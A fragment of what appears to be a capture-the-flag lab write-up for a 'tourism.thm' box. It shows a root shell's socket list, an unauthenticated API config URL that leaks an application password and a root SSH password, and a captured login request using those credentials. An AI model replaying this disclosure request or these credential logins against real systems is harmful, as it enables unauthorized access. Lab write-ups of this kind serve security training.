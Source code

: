 ```bash
root@f5eb774507f2:/tmp# ss
Netid          State           Recv-Q           Send-Q                      Local Address:Port                       Peer Address:Port           Process          
u_dgr          ESTAB           0                0                                       * 17398                                 * 17397                           
u_dgr          ESTAB           0                0                                       * 17397                                 * 17398                           
u_str          ESTAB           0                0                                       * 14898                                 * 0                               
tcp            ESTAB           0                0                          192.168.100.10:22                        xx.xxx.xx.xxx:39128                           
```


<h2>xx.xxx.xx.xx:5000</h2>

<img width="1130" height="322" alt="image" src="https://github.com/user-attachments/assets/50a77637-194c-4eee-b9dd-9404b11be760" />

<br>

<img width="1124" height="597" alt="image" src="https://github.com/user-attachments/assets/2375179a-9059-4716-8ca2-641d34c9d7ce" />

<br>
<p>xx.xxx.xx.xx/api/index.php/v1/config/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20</p>

<p>

- application : gJ48pkrbAgOwhNgn<br>
- mailfrom: mail@tourism.thm<br>
- fromname: Tourism<br>
- /usr/sbin/sendmail</p>

<p>xx.xxx.xx.xx/api/index.php/v1/config/application?public=true</p>

- root : RootPassword@1234 (for SSH)</p>

<h2>xx.xxx.xx.xx:5000</h2>

<img width="1126" height="416" alt="image" src="https://github.com/user-attachments/assets/c9eb33bd-dec1-4577-b5de-24d12d6a3af6" />

<img width="1126" height="375" alt="image" src="https://github.com/user-attachments/assets/246918e6-d825-42fe-8e34-ecef704804d4" />

<h6>Request</h6>

```bash
POST / HTTP/1.1
Host: xx.xxx.xx.xx:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://xx.xxx.xx.xx:5000/
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://xx.xxx.xx.xx:5000
Connection: keep-alive
Cookie: 310c29008fc04f792e0bccb4682e5b78=hdhemeem9c18nuokgl3an0j7s8; session_data=8004952c000000000000007d94288c0475736572948c0b6170706c69636174696f6e948c07726576656e7565948c05383530303094752e; session_data=8004952c000000000000007d94288c0475736572948c0b6170706c69636174696f6e948c07726576656e7565948c05383530303094752e
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=application&password=gJ48pkrbAgOwhNgn
```
